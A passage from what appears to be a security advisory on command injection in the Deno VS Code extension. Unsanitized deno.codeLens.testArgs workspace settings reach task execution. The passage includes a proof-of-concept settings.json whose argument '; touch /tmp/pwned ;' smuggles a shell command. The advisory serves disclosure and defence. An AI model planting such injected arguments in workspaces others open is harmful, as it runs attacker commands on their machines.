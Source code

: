              command: "test",
              args, // Unsanitized arguments passed to task definition
              env,
            };
            // ...
            const task = tasks.buildDenoTask(
              workspaceFolder,
              denoCommand,
              definition,
              `test "${name}"`,
              args, // Unsanitized arguments passed to buildDenoTask
              ["$deno-test"],
            );
            // ...
            const createdTask = await vscode.tasks.executeTask(task); // Task execution, leading to command injection
            // ...
          };
        }
        ```
    4. Visualization:
        ```
        [Workspace Settings (deno.codeLens.testArgs)] --> config.get() --> testArgs --> args --> vscode.tasks.executeTask() --> System Command Execution
        ```
    5. Explanation:
        - The `test` function in `client/src/commands.ts` retrieves the `deno.codeLens.testArgs` configuration from workspace settings without sanitization.
        - These arguments are directly incorporated into the command array (`args`) that is passed to `vscode.tasks.executeTask`.
        - The `vscode.tasks.executeTask` then executes the Deno CLI command, including the attacker-controlled arguments, leading to command injection.

- Security Test Case:
    1. Create a new directory named `malicious-deno-workspace`.
    2. Navigate into `malicious-deno-workspace` and create a `.vscode` subdirectory.
    3. Inside `.vscode`, create a file named `settings.json` with the following JSON content:
        ```json
        {
            "deno.enable": true,
            "deno.codeLens.testArgs": [
                "--allow-all",
                "; touch /tmp/pwned ;"
            ]
        }
        ```
    4. In `malicious-deno-workspace`, create a file named `test.ts` with the following TypeScript content:
        ```typescript
        Deno.test("vulnerability test", () => {
          console.log("Test running");
        });
        ```
    5. Open the `malicious-deno-workspace` folder in Visual Studio Code.
    6. Confirm that the Deno extension is enabled for this workspace.
    7. Open the `test.ts` file in the editor.
    8. Locate and click the "Run Test" code lens situated above the `Deno.test` declaration in the editor.
    9. After the test execution completes, verify the existence of a file named `pwned` in the `/tmp/` directory of your system using the command `ls /tmp/pwned` (or `dir /tmp/pwned` on Windows after adjusting the command in `settings.json`). If the file exists, it confirms successful command injection and remote code execution.
